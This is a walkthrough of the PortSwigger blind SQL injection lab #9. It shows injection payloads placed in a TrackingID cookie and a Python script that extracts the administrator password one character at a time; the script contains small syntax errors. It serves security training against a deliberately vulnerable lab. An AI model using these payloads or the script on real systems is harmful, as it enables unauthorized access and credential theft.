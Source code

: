 
# Portswigger SQLi Lab #9

## Blind SQL injection with conditional responses. 

<br>

<br>

If the application responds differently in a true use case versus a fale use case, we can use a blind SQLi.

**1) Confirm that the parameter is vulnerable to blind SQLi.**

The Cookie TrackingID looks like it is set a string value. Imagine the value is attached to a request such as the following:
Select tracking-id from tracking-table where trackingID = 'nLiXTfFOQB9PLTyJ'--

If this tracking ID exists the query returns a value such as a Welcome back message.
If this tracking ID doesn't exit the query returns nothing and there is no welcome back message.

This is the basis of how SQL queries can be used to tell us information, even when the output can't be seen. A blind SQLi such as this will use boolean logic in order to determine information.

This input field can be confirmed as a blind injection method by first changing the tracking ID in a query and search for the "welcome back" message.

Since there were no "welcome back" search matches in the 200 response code when the TrackingID was changed from gw7Fyl8B18NpxBmY to ABCDEFGHIJKLMNOP, you can move on to the next step for verifying the blind SQLi.

Now, determine whether the welcome back message can show us true and falses using boolean logic.

This will make our imaginary request look something like:

```select tracking-id from tracking-table where trackingID = 'nLiXTfFOQB9PLTyJ' and 1=1--'```
This true use case should show a "welcome back!" message.
However, since we just see our field being: 
```Cookie: TrackingID=gw7Fyl8B18NpxBmY```
The actual injection will be
' and 1=1--
This is put in after the tracking ID like the following:
```Cookie: TrackingID= gw7Fyl8B18NpxBmY' and 1=1--```
Don't forget to URL encode your injected code using CTRL+u on Windows or cmd+u on iOS.

This query gave us a welcome back message in the 200 response code, so it is showing the true boolean logic correctly. Now let's test it for false boolean logic.

```select tracking-id from tracking-table where trackingID = 'gw7Fyl8B18NpxBmY' and 1=0--```
Since this is a True+False case, the result should be false and there should be no "welcome back!" message.

In the 200 response, no matches were found for searching "welcome back!".

Now we've confirmed that a true statement will show a welcome back message and a false statement will not show a welcome back message.

<br>

**2) Confirm that we have a users table.**

For this, our imaginary request will change to the following:

select tracking-id from tracking-table where trackingID = 'gw7Fyl8B18NpxBmY' and (select 'x' from users LIMIT 1)='x'--

<br>

**3) Confirm that username adminsitrator exists in the users table.**

```select tracking-id from tracking-table where trackingID = 'gw7Fyl8B18NpxBmY' and (select username from users where username='administrator')='administrator'--```

Received a "welcome back!" message in the 200 response code so an administrator user exists

<br>

**4) Enumerate the password of the administrator user.**

First, start with the length of the password. 

```select tracking-id from tracking-table where trackingID = 'gw7Fyl8B18NpxBmY' and (select username from users where username='administrator' and LENGTH(password)>1)='administrator'--```

We can send it to the Intruder. Here we will select just the field we want to change, or iterate, which is the "1" in "LENGTH(password)>1)". Once just the "1" is highlighted, click the "Add Then in the settings, make sure it will increase from 1 to 30 by a step of 1. I chose 30 because passwords usually aren't longer than 24 characters, but I went a little higher just to be sure.

The intruder showed that the welcome back message was displayed up until 20, which means the password length is exactly 20 characters.

Now the intruder can be used to determine each character of the password through iteration just like the above message.
The payload will be slightly altered:
```select tracking-id from tracking-table where trackingID = 'gw7Fyl8B18NpxBmY' and (select substring(password,1,1) from users where username='administrator')='a'--```

No welcome back message, so the first character is not "a". 

Since this will require 2 payloads changing constantly, we'll use a script since I don't currently own the professional version of Burp Suite.

```python
import sys
import requests
import urllib3
import urllib

urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

proxies = {'http': 'http://127.0.0.1:8080', 'https': 'https://127.0.0.1:8080'}

def sqli_password(url):
    password_extracted = ""
    for i in range (1,21):
        for j in range (32,126):
            sqli_payload = "' and (select ascii(substring(password,%s,1)) from users where username='administrator')='%s'--" %(i,j)
            sqli_payload_encoded = urllib.parse.quote(sqli_payload)
            cookies = {'TrackingID': 'NbsQfi7vZr8lVbJt'+sqli_payload_encoded,'session': 'xV5RtywupsY5wOKXzm3ivIh1Oj6Puhgv'}
            r = requests.get(url, cookies=cookies, verify=False, proxies=proxies)
            if "Welcome" not in r.text:
                sys.stdout.write('\r'+ password_extracted + chr(j))
                sys.stdout.flush()
            else:
                password_extracted += chr(j)
                sys.stdout.write('\r' + password_extracted)
                sys.stdout.flush()
                break

def main()
    if len(sys.argv) !=2:
        print("(+) Usage: %s <url>" % sys.argv[0])
        print("(+) Example: %s www.example.com" % sys.argv[0])

    url = sys.argv[1]
    prit ("(+) Retrieving administrator password...")
    sqli_password(url)

if __name__ == "__main__":
    main()
```

<br>

**5. After running the script or using Professional Burp Suite's iteration, enter your username and password to complete the lab.**